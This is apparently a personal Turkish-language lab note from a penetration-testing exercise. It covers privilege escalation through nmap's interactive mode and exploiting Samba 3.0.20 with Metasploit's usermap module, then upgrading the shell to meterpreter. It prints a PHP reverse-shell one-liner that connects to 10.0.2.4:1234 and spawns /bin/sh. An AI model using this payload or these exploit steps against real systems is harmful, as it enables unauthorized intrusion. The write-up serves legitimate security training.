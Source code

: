 ![[Pasted image 20240404004735.png]]

![[Pasted image 20240404004816.png]]
## nmap --interactive    modu ile priv esc bile yaptım. 
### <span style="background:#ff4d4f">Descripter'ları değiştirince sorun çözüldü. </span>

https://gist.github.com/podjackel/4d2c6938289f3a2366ccc8cea447350d
![[Pasted image 20240404005526.png]]![[Pasted image 20240404005623.png]]

```
"""<?php $sock=fsockopen("10.0.2.4",1234);exec("/bin/sh -i <&4 >&4 2>&4");?>"""
```
![[Pasted image 20240404005750.png]]

---

## 4. Targeting SAMBA #samba 
#samba-attack
![[Pasted image 20240404102558.png]]
### msfconsole search smb_version
![[Pasted image 20240404102643.png]]
### Bir türlü sambanın versiyonunu bulamamıştık.
## msfconsole bize SAMBA 3.0.20 olduğunu söyledi

# searchsploit samba 3.0.20
![[Pasted image 20240404102903.png]]



## msfconsole
### search samba usermap
![[Pasted image 20240404103015.png]]
![[Pasted image 20240404102401.png]]
![[Pasted image 20240404102446.png]]
![[Pasted image 20240404102509.png]]

##### Gelen shell nc normal shell'di biz bunu session -u 1 komutu ile meterpreter shell'e çevirdik.


---
![[Pasted image 20240404103336.png]]
![[Pasted image 20240404103357.png]]





